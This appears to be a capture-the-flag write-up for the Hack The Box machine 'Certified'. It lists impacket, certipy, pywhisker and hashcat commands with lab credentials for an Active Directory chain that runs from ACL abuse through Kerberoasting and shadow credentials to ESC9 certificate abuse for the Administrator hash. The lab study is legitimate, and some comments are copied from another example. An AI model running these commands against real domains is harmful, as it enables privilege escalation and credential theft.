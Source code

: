 # Judith *WriteOwner* on `Management Group`
1. Set himself as the owner of the group.
2. Modify the group’s permissions to grant himself `WriteDACL` (allowing him to modify memberships).
3. Add himself to the group (gaining privileges associated with it).
```bash
# Grant full ownership to Judith
impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41

# Grant full control to Judith
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB'  'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41

# Add user Judith to Management Group
net rpc group addmem "Management" 'judith.mader' -U 'certified.htb'/'judith.mader'%'judith09' -S 10.10.11.41

```

# Management Group ***GenericWrite*** `management_svc`
## Targeted Kerberoast
judith is now a part of `management group`
```bash
# GenericWrite using targetedKerberoast.py
python3 /opt/targetedKerberoast/targetedKerberoast.py -d certified.htb -u 'judith.mader' -p 'judith09' -v

```
*got `management_svc` hash*
```powershell
.\hashcat.exe -m 13100 ..\hashes\HackTheBox\certified_management_svc.txt ..\rockyou.txt
```
## ✅method 2 - Shadow Credential Attack w/ `pywhisker.py` and `certipy-ad`
```bash
python3 /opt/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --filename 'management_svc'

certipy-ad cert -pfx management_svc.pfx -password 'raXIjyGKB1tsZlVrjkeB' -export -out 'mgmt_svc_dec.pfx'

certipy-ad auth -pfx mgmt_svc_dec.pfx -username 'management_svc' -domain 'certified.htb' -dc-ip 10.10.11.41
```
## ✅ method 3 - Shadow Credential Attack w/ `certipy-ad`
```bash
certipy-ad shadow auto -username 'judith.mader@certified.htb' -p 'judith09' -account 'management_svc'
```


# management_svc ***GenericAll*** ca_operator

```bash
# change password on evil-winRM
Evil-WinRM> net user ca_operator Password123
```


# Exploit ESC9
`management_svc` has ***GenericWrite*** (actually GenericAll) over `ca_operator`
`john` has ***GenericWrite*** over `jane`
```bash
# change the userPrincipalName of ca_operator to be Administrator
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'administrator'

# request the certificate as ca_operator
certipy-ad req -username 'ca_operator@certified.htb' -password 'Password123' -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'

# change back the userPrincipalName of Jane to be something else, like her original userPrincipalName Jane@corp.local
certipy-ad account update -username 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'ca_operator@certified.htb'

# try to authenticate with the certificate, we will receive the NT hash of the Administrator@corp.local user
certipy-ad auth -pfx administrator.pfx -domain 'certified.htb'

```